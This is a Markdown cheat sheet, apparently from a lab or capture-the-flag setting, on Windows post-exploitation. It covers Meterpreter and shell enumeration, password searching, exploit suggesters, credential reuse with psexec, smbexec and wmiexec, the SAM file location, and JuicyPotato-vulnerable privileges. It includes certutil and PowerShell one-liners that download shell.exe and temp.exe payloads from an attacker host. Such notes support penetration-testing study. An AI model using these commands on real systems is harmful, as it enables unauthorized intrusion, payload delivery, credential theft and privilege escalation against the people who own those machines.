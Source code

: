 
## System enumeration

### enumerate from meterpreter shell
```
sysinfo
```

### get shell
```
shell
```

### get system info from shell
```
systeminfo
```
this shows us installed date, boot time, hot fixes installed or not.

## User enumeration 

### Find out loggedin user and his privilages
```
whoami
whoami /priv
```

### Find all users on the host
```
net users
```

### Find details of specific user
```
net user janith
```

### Find whos on administrator group
```
net localgroup administrators
```

## Network enumeration

###Find host ip
```
ipconfig
ipconfig /all
```

## Searching for passwords

### Search for passwords
```
findstr /si password *.txt
```

## AV and Firewall enumeration

### Find all the services running
```
sc queryex type= service 
```

### Check firewall info
```
netsh advfirewall firewall dump
netsh firewall show state
```

### metersploit local exploit sugester
```
run post/multi/recon/local_exploit_suggester
```
run this script using the session 

### Run windows exploit suggester using systeminfo
```
python windows-exploit-suggester.py --database 2020-10-12-mssb.xls --systeminfo sysinfo.txt
```

## Downloading files into windows host
first go to c:/temp folder
```
certutil -urlcache -f http://10.10.14.32/temp.exe temp.exe
```

## Download files using powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.1/shell.exe', 'c:\Users\Public\Downloads\shell.exe')"
```

## Windows subsystem for linux

### Search for bash or wsl
```
where /R C:\windows bash.exe
where /R C:\windows wsl.exe
```
If you found connect to linux sub folder and search for history.

## Use credentials to login using psexec.py
```
psexec.py USER:PASSWORD@DOMAIN
smbexec.py USER:PASS@DOMAIN
wmiexec USER:PASS@DOAMIN
```

## connect to SMB using credentials
```
smbclient \\\\IP\\FOLDER -U USER
```


## SAM file path
```
C:\Windows\System32\Config
```

## Imporsanate privilage escalate

### Search for privilages
```
whoami /priv
```

### Use this command to search meterpreter session
```
getprivs
```

## These privilages are vulnerable to juicypotato attacks
```
SeImporsanatePrivilage Enable
SeAssignPrimaryToken Enable 
```

